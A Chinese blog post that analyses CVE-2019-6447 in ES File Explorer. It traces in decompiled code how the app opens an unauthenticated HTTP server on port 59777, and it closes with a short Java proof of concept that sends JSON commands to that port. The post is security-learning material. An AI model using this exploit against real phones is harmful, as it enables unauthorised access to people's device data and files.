# ES 文件浏览器未授权访问漏洞(CVE-2019-6447)具体分析及利用 - MG_Aldys4 - 博客园

> 原文：[`www.cnblogs.com/aldys4/p/14877792.html`](https://www.cnblogs.com/aldys4/p/14877792.html)

**本文写于 2018~2019 年间,属于黑历史,于 2021 年由 CSDN 迁移博客至此.**

# 漏洞简介

CVE-2019-6447 是 Android 端上的一个知名软件:**ES 文件浏览器**的未授权访问漏洞
漏洞造成原因主要是软件在启动时会创建一个端口为 59777 的 HTTP 服务器
并且软件未对 HTTP 服务器的访问做任何权限检查
从而导致攻击者可利用此漏洞控制受害者的手机

虽然这个洞是在一月份爆出的，那个时候鄙人正在准备考试，所以没有关注。
所以拖到 4 月底才发现有这个漏洞，因为目前主攻安卓编程，所以对这个漏洞很感兴趣
所以决定现在来分析它

# 漏洞分析

### 0x01>POC 解析

漏洞的 POC 已经被发布在 github 上了，先上去看看 poc

poc 作者对漏洞的描述就是:**软件会在 59777 端口上开放一个 HTTP 服务器，可以通过构造特殊 payload 去请求服务器来完成攻击**

接下来看看 poc

可以看到 poc 是利用 Python 写的,poc 作者先引入 json 和一些网络库后就开始编写利用代码了

**execute_cmd**函数内传入了三个参数:
**addr//ip 地址
cmd//控制受害者手机所执行的命令
package//手机软件包名**
通过阅读代码可知
poc 是通过构造特殊的 json 数据来**命令 ES 文件浏览器对受害者手机进行一系列操作**

### 0x02>分析漏洞产生原因 _ 服务器建立过程分析

要分析漏洞，首先要下载一个带有漏洞的 ES 文件浏览器
通过 poc 作者提供的信息，**漏洞在 4.1.9.7 及以下版本存在**

那么我下载一个 4.1.9.6 版本进行分析
因为没有动态分析工具，所以我选择直接反编译的方法对漏洞进行溯源
（表示分析完漏洞后肝少了一个）
分析工具:**Eclipse,Jd-gui,apktool,d2j-dex2jar**
不用我多说了吧，先利用 dex2jar 将软件 dex 转为 jar
利用 jd-gui 转化为 java 代码
我先在代码中搜索漏洞利用命令的其中一条:**"getDeviceInfo"**

发现**es/qf.class**中包含着漏洞服务器的具体代码

大致浏览一遍
发现**com/estrongs/fs/impl/adb/c.class**也与漏洞有所相关联
这里先不对这个 class 文件进行分析,在下文会进行分析

接下来先利用 apktool 反编译 apk 的**Androidmianfest.xml 文件**
poc 作者说明了：
**软件会在启动时在 59777 端口上建立服务器**
那么就要先看看软件入口了
先看 xml 文件

软件入口在:
com.estrongs.android.pop.app.openscreenad.NewSplashActivity
但通过分析发现
这个类只是对 app 的 ui 进行初始化
那么再仔细想想：
再软件启动时就执行的类除了清单文件中指定的入口还有什么？
对了！**application 属性中指定的 name 参数**

com.estrongs.android.pop.FexApplication
先查看 FexApplication 类中最先执行的**onCreate()**方法

可以看到，oncreate 方法内先后调用了 q,s,r 三个方法

经过排查，q()方法是对权限进行检查，r()方法是对 ui 的初始化
**重要的是 s()方法**

上图中 s 方法先对 sdk 进行了一个判断和处理，这不重要，重要的是 s 方法最终会**调用 u 方法**

u 方法中程序向下走,最终执行 B 方法

B 方法内的代码让我眼前一亮
它向 com.estrong.fs.f 类中的 a 方法传入了两个参数
**"adb",com.estrongs.fs.impl.adb.c**
其中第二个参数就是我在上文中未分析的 c.java 文件
通过传入的参数和包名可知
**这个 c.class 文件主要用于处理一些 adb 相关操作，大致浏览该类,发现还和 qf.class 文件有着联系**
代码已经执行到关键处
那么接下来一些无关紧要的执行全部略过，我们只看程序最终执行到的关键代码

在传入参数后，代码最终执行到**com.estrongs.fs.impl.adb.c**类
可以大致浏览一下 c 类,可知此类与 adb 处理和执行有关

**程序最终会将参数传入此类的一个 a 方法**

可以看到在 a 方法中,程序最终会执行到红线处
启动**com.estrongs.android.pop.app.AdbControllerActivity**类
并且带上了两个参数
"AdbControllerActivity"，嗯，很有趣的类名，对吧

**该类中 paramBundle 成员变量获取了在 c 类中执行的 adb 命令中的向该类传递的 adbRemoteIp 参数**
接着程序对 paramBundle 进行判断，若值不为空则继续执行
**注意！程序在判断通过后执行了 qf 类的 b 方法**

立刻跟进 qf.类中的 b 方法

该方法会向 qf 类中的 a 方法中传入一个为 false 的布尔值
那么看看 qf 类的 a 方法

a 方法中 paramBoolean 参数被传入了 false
注意：其中有一句判断

```
if((f!=null)&&(f.c())) 
```

**通过分析,f 是一个建立套接字的线程
f.c()方法判断的是这个线程是否死亡
如果线程死亡，paramBoolean 会被赋予 true 值**
如果程序**正常运行**，**paramBoolean 会被赋予 false**
程序继续向下执行

接下来的执行的代码会让你兴奋

59777，这个数字是不是很熟悉
没错，就是漏洞服务器打开的端口
那么我们来看看这个参数最终传入到哪里

可知,qf 类的 paramString 参数被传入"/sdcard"
并且 qf 类的 e 成员被赋值 paramString 参数
这没什么问题，对吧
关键是接下来
paramBoolean 被赋予 false
a 被赋值 paramBoolean
可是我并没有在 qf 类中看到有任何名为 a 的成员
我立刻查看了 qf 类的开头

**qf 继承于 qi
也就是说 qi 内所有公共的变量 qf 都能操作**
立刻查看 qi 类

可以看到 qi 类内的 a 修饰了 protected
看来我的判断没错
qf 类中的 false 值最终到达 qi 类
那么这里的`protected boolean a=false;`有什么用呢
看代码,我在图中做了注释

之前在 qf 类内传入的 int 值 59777 最终被传入到 qi 类内
最终在 qi.a 方法中被传入一个线程内

a 方法中创建了一个套接字并开始监听 59777 端口
那么在 59777 端口上的服务器就建立完成了

可以看到在以上分析过程中程序没有进行任何访问权限的限制

### 0x03>分析漏洞产生原因 _ 分析对服务器接收请求的处理

分析过 poc 后我们可以知道漏洞服务器通过处理特定 json 来返回相应的手机信息
**服务器对请求的处理主要在 qf.java 文件中**

代码先判断请求方式
接着对请求进行了一些简单判断，无错后直接进入执行
可以看到这段代码就是一个死循环
并且不断返回 paramString1
在对请求进行处理时 程序对命令分析，并根据命令向 a 方法中传入对应的值，并且将传回的值赋值给变量 paramString1 并返回，显示在服务器上
那么来看看 a 方法
我这里直接做了分析和注释
直接看图吧





最终 a 方法返回了一个 json，显示在服务器上
可以看到，在对服务器的请求进行处理时也没有做出任何访问限制
这就是造成漏洞的直接原因

# 0x04>利用 Java 构造 POC

原理很简单，利用 HttpUrlConnection 向服务器发送请求就好
这里直接贴代码和截图

```
 public static void CVE_2019_6447(String command) throws MalformedURLException, IOException, JSONException{
		URL url=new URL("http://127.0.0.1:59777");
		HttpURLConnection http=(HttpURLConnection) url.openConnection();
		http.setRequestMethod("POST");
		http.setDoOutput(true);
		http.setReadTimeout(1000);
		http.addRequestProperty("Content-Type","application/json");
		JSONObject json=new JSONObject();
		json.put("command",command);
		DataOutputStream out=new DataOutputStream(http.getOutputStream());
		out.writeBytes(json.toString());
		System.out.println(json.toString());
		System.out.println(http.getResponseCode());
		BufferedReader br=new BufferedReader(new InputStreamReader(http.getInputStream()));
		String line="";
		while((line=br.readLine())!=null){
			System.out.println(line+"\n");
		}
	} 
```




到这里，分析和利用就正式完成了，虽然技术含量不高，但还是学到了很多东西，还请大佬们多多指点